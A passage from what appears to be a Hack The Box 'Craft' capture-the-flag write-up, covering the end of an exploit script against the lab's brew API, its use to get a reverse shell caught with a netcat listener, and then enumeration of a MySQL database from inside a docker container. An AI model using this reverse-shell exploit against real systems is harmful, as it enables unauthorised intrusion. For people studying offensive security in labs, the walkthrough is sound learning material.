     json_data = json.dumps(brew_dict)
    response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
    print(response.text)

Running my exploit

    root@kali:# python3 craft-api-exploit.py
    Usage: craft-api-exploit.py IP PORT
    root@kali:# python3 craft-api-exploit.py 10.10.15.38 9001

And i got my shell back

    root@kali:# nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.110.
    Ncat: Connection from 10.10.10.110:43437.
    /bin/sh: can't access tty; job control turned off
    /opt/app #

By doing hostname I can see that we are in a docker.

    /opt/app# hostname
    5a3d243127f5

## Gilfoyle Repo

---

After some time in the docker trying to enumerate the network, maybe I can pivot to the real box. wasted some time in that and some other rabbit holes.

There was **dbtest.py** script in the repository testing connection to a database. Database wasn't on the same docker I am on and there was no MySQL installed so I had to enumerate the database with that python script.

    #!/usr/bin/env python
    import pymysql
    from craft_api import settings

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

    try:
        with connection.cursor() as cursor:
            sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
            cursor.execute(sql)
            result = cursor.fetchone()
            print(result)
